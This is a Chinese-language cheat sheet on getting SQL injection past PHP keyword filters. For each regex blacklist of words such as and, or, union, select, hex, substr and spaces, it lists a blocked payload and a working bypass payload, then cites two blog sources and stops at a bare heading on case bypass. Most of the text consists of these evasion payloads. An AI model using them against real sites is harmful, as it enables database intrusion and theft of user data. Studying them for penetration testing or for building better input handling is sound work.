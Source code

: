 ```bash

过滤关键字   and, or, union, where, limit, group by, select, '
php代码   preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)
会过滤的攻击代码    1 && (select substr(gruop_concat(user_id),1,1) user from users) = 1
绕过方式    1 && user_id is not null 1 && substr(user,1,1) = 0x61 1 && substr(user,1,1) = unhex(61)

过滤关键字   and, or, union, where, limit, group by, select, ', hex
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex)/i', $id)
会过滤的攻击代码    1 && substr(user,1,1) = unhex(61)
绕过方式    1 && substr(user,1,1) = lower(conv(11,10,16)) #十进制的11转化为十六进制，并小写。

过滤关键字   and, or, union, where, limit, group by, select, ', hex, substr
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr)/i', $id)
会过滤的攻击代码    1 && substr(user,1,1) = lower(conv(11,10,16))/td>
绕过方式    1 && lpad(user,7,1)

过滤关键字   and, or, union, where, limit, group by, select, ', hex, substr, 空格
php代码   preg_match('/(and|or|union|where|limit|group by|select|\'|hex|substr|\s)/i', $id)
会过滤的攻击代码    1 && lpad(user,7,1)/td>
绕过方式    1%0b||%0blpad(user,7,1)

过滤关键字   and or union where
php代码   preg_match('/(and|or|union|where)/i',$id)
会过滤的攻击代码    1 || (select user from users where user_id = 1) = 'admin'
绕过方式    1 || (select user from users limit 1) = 'admin'
```

参考资料：

```
 https://mp.weixin.qq.com/s?__biz=MzI4MDQ5MjY1Mg==&mid=2247492453&idx=1&sn=7fa30af26e4d7cfa16792e4f62ba730d&chksm=ebb50c66dcc285703481d990db26fab029b86b9c0c63ea18f11f86cdcbf2be59d82760d2f994&mpshare=1&scene=1&srcid=1212Bxs6l9sTEGEe0tbr0ApF&sharer_sharetime=1639528636326&sharer_shareid=d958928af57914a769de8e2e72622d10&version=3.1.2.2211&platform=win#rd
 
 https://blog.csdn.net/anlalu233/article/details/102623256
```



















## 以下来自:https://blog.51cto.com/u_15288375/2980969?abTest=51cto

一、大小写绕过
